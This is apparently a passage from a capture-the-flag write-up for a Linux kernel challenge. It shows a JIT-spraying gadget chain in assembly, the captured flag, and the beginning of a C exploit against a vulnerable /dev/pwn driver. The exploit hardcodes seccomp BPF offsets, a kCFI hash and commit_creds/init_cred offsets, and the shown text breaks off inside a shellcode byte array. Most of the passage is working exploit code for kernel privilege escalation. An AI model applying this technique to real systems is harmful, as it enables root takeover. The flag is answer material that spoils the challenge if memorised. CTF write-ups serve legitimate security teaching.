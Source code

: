 ```c
xchg rsp, rax
jmp $+3

pop rdi
pop rax
jmp $+3

pop rax
pop rax
jmp $+3

pop rax
nop
jmp $+3

call rax
jmp $+3

pop rax
... ; 29 times
pop rax
ret
```

Keep in mind that you control the value of `rdx` at call time and that you can find kbase leaks on the stack.

## Flag
`toh{JIT_spr4y1ng_1s_my_p4s510n_0f01c80f0110}`

## Full exploit
```c
// Author: prosti (@.prosti. on Discord)

#include "helpers.h"
#include <string.h>
#include <linux/filter.h>
#include <linux/seccomp.h>
#include <sys/prctl.h>
#include <sys/syscall.h>

#define DEV "/dev/pwn"

#define CMD_PWN_WRITE 0x1337
#define CMD_PWN_READ  0x1338
#define CMD_PWN_EXEC  0x1339

#define BPF_OFFSET           0x00200a40

#define VOID_STATIC_HASH     0xa540670c // to get this just disable kcfi randomization momentarely (cfi=norand) 
#define LANDING_ZONE_SIZE    0x100

#define x64_SYS_IOCTL_2_COMMIT_CREDS    0x002aab13 // rdx
#define COMMIT_CREDS_2_INIT_CRED        0x0197b850 // directly hardcoded in the shellcode

uint8_t shellcode[][4] = {   
    { 0x5B, 0x5B, 0xEB, 0x01 },
    { 0x5B, 0x5B, 0xEB, 0x01 },
    { 0x5F, 0x5F, 0xEB, 0x01 },
    { 0x5F, 0x5F, 0xEB, 0x01 },
    { 0x5F, 0x90, 0xEB, 0x01 },
```